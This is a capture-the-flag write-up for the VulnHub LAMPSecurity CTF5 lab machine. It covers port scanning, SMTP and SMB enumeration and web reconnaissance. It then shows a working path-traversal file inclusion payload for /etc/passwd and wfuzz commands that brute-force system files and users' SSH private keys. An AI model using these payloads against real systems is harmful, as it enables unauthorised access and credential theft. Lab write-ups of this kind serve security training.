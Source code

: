 Security: CTF5

[Machine](https://www.vulnhub.com/entry/lampsecurity-ctf5,84/ "https://www.vulnhub.com/entry/lampsecurity-ctf5,84/")

## Reconnaissance

### nmap

* ssh
* smtp
* 80 - httpd
* pop3
* rpcbind
* 139, 445 - netbios 
* imap
* 901 - http Samba Admin Server
* mysql
* 40050 - unknown

### Vulnerable versions

* [ ] ssh
* [ ] smtp
* [ ] 80 httpd
  ??? pop3
* [ ] rpcbind
* [ ] netbios
  ??? imap
  ??? 901
* [ ] mysql
  ??? 40050

### smtp

```bash
nc -vn 192.168.88.220 25
HELO x
MAIL FROM:test@test.com
RCPT TO:root
```
Cause nmap `smtp-enum-users` script didn't work.

### http 80

#### main page

Nothing.

#### Blog

* Nano CMS.
* Admin login.
* user: andy

#### /mail

* SquirrelMail version 1.4.11-1.fc8.
* Login form.

#### Contacts

* Form.

#### Events

* Login form.
* users: patrick, jennifer

#### dirb

* nothing interesting.

#### nikto

* phpMyAdmin 3.1.4

#### /events/robots.txt

A lot of urls.

### pop3

With `pop3-capabilities` nmap script:
* pop3-capabilities: UIDL USER LOGIN-DELAY(180) STLS TOP

### smb

With `smbmap`:
* home
* IPC$
* Samba Server Version 3.0.26a-6.fc8.
* no access.
* nmap gave a [result](enum/smb/enum.nmap)

My attemts with `smbclient --no-pass //192.168.88.220/` or `smbclient -N -L //192.168.88.220/` were useless.

## Thread modeling

1. Search public exploits on new-found services.

2. Search for File Inclusion.

3. Attempt to inject SQL code.

4. brute-force ssh with hydra based on the found users.

## Vulnerabilities analysis

1. Didn't find usefull cve...

2. Found LFI at `/index.php?page=../../../../../../etc/passwd%00`.

3. `/list` has response with error on `' test`.

4. Nothing.

## Exploitation

### LFI

I wanted to use wfuzz and brute-force all useful files:
```bash
wfuzz -c -w /usr/share/wordlists/lfi_linux.txt --hs "Warning" http://192.168.88.220/index.php?page=../../../../../../FUZZ%00 > wfuzz.txt
```

Brute-force `.ssh` and `id_rsa` key, but nothing:
```
wfuzz -c -w ../enum/creds/users.txt --hs "Warning" http://192.168.88.220/index.php?page=../../../../../../home/FUZZ/.ssh/id_rsa%00 > ssh_keys.txt 
```


